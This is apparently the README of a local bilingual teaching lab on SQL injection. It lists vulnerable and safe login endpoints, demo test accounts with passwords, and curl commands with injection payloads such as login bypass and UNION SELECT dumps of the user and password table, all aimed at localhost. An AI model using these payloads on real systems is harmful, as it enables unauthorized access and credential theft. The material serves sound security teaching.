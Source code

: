 ## 🧪 功能演示 | Feature Demo

### 核心端点 | Core Endpoints

| 端点 | 类型 | 说明 | URL |
|------|------|------|-----|
| **主页** | 安全 | 系统说明和导航 | `http://127.0.0.1:5000/` |
| **脆弱登录** | ⚠️ 危险 | 包含SQL注入漏洞 | `http://127.0.0.1:5000/login_vuln` |
| **安全登录** | ✅ 安全 | 使用参数化查询 | `http://127.0.0.1:5000/login_safe` |
| **用户列表** | 信息 | 显示数据库用户 | `http://127.0.0.1:5000/users` |
| **攻击统计** | 分析 | 显示攻击日志 | `http://127.0.0.1:5000/stats` |

### 测试账户 | Test Accounts

```
管理员账户: admin / admin123
普通用户: alice / alice_password  
普通用户: bob / bob123
测试账户: test_user / test123
```

## 🔍 SQL注入攻击演示 | SQL Injection Demonstration

### 手动测试 | Manual Testing

#### 基础注入测试
```bash
# 绕过登录验证
curl "http://127.0.0.1:5000/login_vuln?username=admin'--&password=any"

# 联合查询攻击
curl "http://127.0.0.1:5000/login_vuln?username=' UNION SELECT 1,username,password FROM users--&password=any"

# 布尔盲注测试  
curl "http://127.0.0.1:5000/login_vuln?username=admin' AND 1=1--&password=any"
```

#### 高级注入场景
```bash
# 复杂联合查询
curl "http://127.0.0.1:5000/advanced_vuln?search=' UNION SELECT username,password,'HACKED' FROM users--"

# 条件注入
curl "http://127.0.0.1:5000/advanced_vuln?search=' OR 1=1--"
```
